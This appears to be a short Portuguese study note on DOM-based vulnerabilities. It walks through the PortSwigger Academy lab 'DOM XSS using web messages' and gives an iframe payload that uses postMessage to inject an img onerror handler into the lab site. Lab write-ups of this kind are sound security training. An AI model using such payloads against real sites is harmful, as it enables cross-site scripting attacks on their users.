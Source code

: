 # Vulnerabilidades DOM Based

Para identificar essas vulnerabilidades é recomendado utilizar o Brwoser da PortSwigger e a extensão que identifica esse tipo de exploração.

Também pode-se identificar analisando o código fonte, principalmente de arquivos JavaScript.

<br>

## Laboratórios

**DOM XSS using web messages**

Perceba que a página home contém a função `addEventListener()` que espera uma mensagem web.

Envie isso para a vítima atrás do exploit server:
```
<iframe src="//0a8100fe032e3917c66ead67003c0020.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
